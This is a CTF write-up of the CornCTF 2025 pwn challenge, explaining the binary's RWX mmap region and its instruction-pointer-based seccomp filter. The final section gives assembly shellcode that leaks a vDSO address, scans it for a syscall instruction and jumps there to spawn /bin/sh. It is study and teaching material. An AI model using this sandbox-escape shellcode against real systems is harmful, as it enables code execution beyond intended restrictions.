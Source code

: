 Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challenge in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](images/he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](images/he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)` and get the shell. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](images/he_protecc-013.png)
## mmap my beloved

> [!note]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 
> In our case the program needs a mmap region because we don't have an area that is writable and executable at the same time.

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use the `strace` command and read the instruction from there:

![](images/he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](images/he_protecc-014.webp)

The `prctl` call sets the **NO_NEW_PRIVS** flag, why?  This is a security measure to stop privilege escalation made by malformed seccomp filter, so we put it before every seccomp installation ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The next instruction, the syscall, installs a seccomp filter on the binary.

> [!note]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does this seccomp filter allow?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but that's not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  After the mmap regio, so this is why we can't execute a syscall in the shellcode :( 

But WAIT, what can we find after `0x500fff` but before `0x7fffffffffff`?

Let's run our debugger of choice and look at the mappings:

![](images/he_protecc-015.webp)

Using `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!note]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](images/he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle one problem after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](images/he_protecc-017.webp)

## Assembly 

Now comes the *difficult* part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the first leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

We could zero out the 12 least significant bits to align the address to a page start, but in our case it doesn't matter.
Now let's scan the memory area for a syscall, remember that the opcode is `0x0F05` but we are in little-endian:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases `r8` (pointer to `vdso` leak) and take two bytes, it then checks if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, `r8` will point to a valid syscall instruction, and we can continue with setting the other registers for an execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8 // <-- jump to syscall outside our mmap area
```

and boom, we have a shell.

